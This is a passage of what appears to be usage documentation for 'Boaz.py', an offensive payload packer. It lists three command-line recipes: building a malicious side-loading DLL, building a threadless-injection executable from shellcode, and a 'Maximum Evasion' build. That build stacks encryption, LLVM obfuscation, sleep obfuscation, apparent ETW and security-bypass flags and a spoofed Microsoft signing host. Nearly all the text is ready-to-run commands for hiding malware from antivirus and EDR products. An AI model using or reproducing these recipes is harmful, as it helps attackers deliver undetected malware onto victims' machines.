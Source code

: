 ### Workflow 6: DLL Side-Loading

```bash
# Create malicious DLL
python3 Boaz.py \
  -f payload.exe \
  -o version.dll \
  -dll \
  -l 48 \
  -e aes \
  -c pluto \
  -obf_api \
  -u
```

### Workflow 7: Threadless Injection

```bash
# VT pointer hijacking
python3 Boaz.py \
  -f shellcode.bin \
  -sd \
  -o threadless.exe \
  -l 73 \
  -e aes \
  -c akira \
  -dream 2000
```

### Workflow 8: Maximum Evasion

```bash
# All evasion features enabled
python3 Boaz.py \
  -f payload.exe \
  -o max_evasion.exe \
  -t donut \
  -l 69 \
  -e aes2 \
  -c akira \
  -mllvm "irobf-indbr,irobf-icall,irobf-indgv,irobf-cff" \
  -obf \
  -obf_api \
  -a \
  -sleep \
  -dream 3000 \
  -j \
  -g \
  -etw \
  -cfg \
  -d \
  -af \
  -entropy 2 \
  -s www.microsoft.com \
  -icon
```
